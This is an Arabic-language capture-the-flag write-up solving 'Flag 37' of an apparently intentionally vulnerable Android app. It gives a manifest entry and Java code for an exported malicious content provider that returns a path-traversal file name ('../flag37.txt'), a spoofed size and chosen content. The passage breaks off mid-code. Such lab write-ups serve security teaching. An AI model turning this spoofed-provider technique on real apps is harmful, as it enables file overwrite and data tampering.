 هنا الـ activity بيجيب intent وياخد الـ URI اللي فيه ويستخدمه عشان يشغل provider، وبعدين يشيك إذا الملف اسمه "../flag37.txt" وحجمه بالضبط 1337 bytes لو true بيفتح input stream (طريق تقدر تستقبل بيه بيانات) عشان يقرأ الملف ويقرأ كل محتوى الملف في `StringBuilder` ويشيك إذا المحتوى بالضبط `"give flag"` لو مطابق، بيشغل  `success()`  ولو لأ، بيسجل إن المحتوى مش مطابق

#### الحل

هنا لازم ننشئ content provider بتاعنا مع المتطلبات وبعدين نضغط على activity الـ flag من الـ app

الـ Flag 37 activity بيعمل الفحوصات المحددة دي:

1. **بيعمل query لـ content provider** عبر الـ URI من الـ intent
2. **بيستخرج metadata** من الـ cursor: أعمدة `_display_name` و `_size`
3. **بيتأكد من اسم الملف** لازم يكون بالضبط `"flag37.txt/.."`
4. **بيتأكد من حجم الملف** لازم يكون بالضبط `1337` bytes
5. **بيقرأ محتوى الملف** باستخدام `openInputStream()`
6. **بيشيك إذا المحتوى يساوي** بالضبط `"give flag"`

الـ **custom content provider** اللي هيـ:

- يرجع الـ metadata الصح في method الـ `query()`
- يدي محتوى الملف بالضبط عبر `openInputStream()` أو `openFile()`
- يتأكد إن المحتوى بالضبط 1337 bytes (مع padding)

```xml
<provider  
    android:name=".AttackProvider"  
    android:authorities="ItsFadinG.github.io"  
    android:enabled="true"  
    android:exported="true"></provider>
```

```java
  
public class AttackProvider extends ContentProvider {  
    public AttackProvider() {  
    }  
  
    @Override  
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {  
        Log.i("AttackProvider", "query("+uri.toString()+")");  
  
        MatrixCursor cursor = new MatrixCursor(new String[]{  
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE  
        });  
  
        cursor.addRow(new Object[]{  
                "../flag37.txt", 1337  
        });  
  
        return cursor;  
    }  
    @Override  
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {  
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");  
  
        try {  
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();  
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);  
  
            new Thread(() -> {  
                try {  
                    outputStream.write("give flag".getBytes());  
                    outputStream.close();  
```